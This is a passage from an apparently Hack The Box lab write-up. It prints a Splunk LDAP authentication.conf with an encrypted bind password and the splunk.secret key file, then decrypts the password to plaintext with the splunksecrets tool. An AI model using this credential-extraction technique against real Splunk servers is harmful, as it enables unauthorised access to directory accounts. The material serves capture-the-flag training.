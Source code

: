 Looking for the same files we found earlier we can find the following.

`./var/run/splunk/confsnapshot/baseline_local/system/local/authentication.conf`

```
[default]

minPasswordLength = 8
minPasswordUppercase = 0
minPasswordLowercase = 0
minPasswordSpecial = 0
minPasswordDigit = 0


[Haze LDAP Auth]

SSLEnabled = 0
anonymous_referrals = 1
bindDN = CN=alexander.green,CN=Users,DC=haze,DC=htb
bindDNpassword = $1$YDz8WfhoCWmf6aTRkA+QqUI=
charset = utf8
emailAttribute = mail
enableRangeRetrieval = 0
groupBaseDN = CN=Splunk_Admins,CN=Users,DC=haze,DC=htb
groupMappingAttribute = dn
groupMemberAttribute = member
groupNameAttribute = cn
host = dc01.haze.htb
nestedGroups = 0
network_timeout = 20
pagelimit = -1
port = 389
realNameAttribute = cn
sizelimit = 1000
timelimit = 15
userBaseDN = CN=Users,DC=haze,DC=htb
userNameAttribute = samaccountname

[authentication]
authSettings = Haze LDAP Auth
authType = LDAP
```

`./etc/auth/splunk.secret`

```
CgL8i4HvEen3cCYOYZDBkuATi5WQuORBw9g4zp4pv5mpMcMF3sWKtaCWTX8Kc1BK3pb9HR13oJqHpvYLUZ.gIJIuYZCA/YNwbbI4fDkbpGD.8yX/8VPVTG22V5G5rDxO5qNzXSQIz3NBtFE6oPhVLAVOJ0EgCYGjuk.fgspXYUc9F24Q6P/QGB/XP8sLZ2h00FQYRmxaSUTAroHHz8fYIsChsea7GBRaolimfQLD7yWGefscTbuXOMJOrzr/6B
```

We can use `splunksecrets` again to decrypt this password.

```bash
splunksecrets splunk-decrypt --ciphertext '$1$YDz8WfhoCWmf6aTRkA+QqUI=' -S splunksecret2.txt

/workspace/htb/labs/haze/.venv/lib/python3.11/site-packages/splunksecrets.py:48: CryptographyDeprecationWarning: ARC4 has been moved to cryptography.hazmat.decrepit.ciphers.algorithms.ARC4 and will be removed from cryptography.hazmat.primitives.ciphers.algorithms in 48.0.0.
  algorithm = algorithms.ARC4(key)
Sp1unkadmin@2k24
```
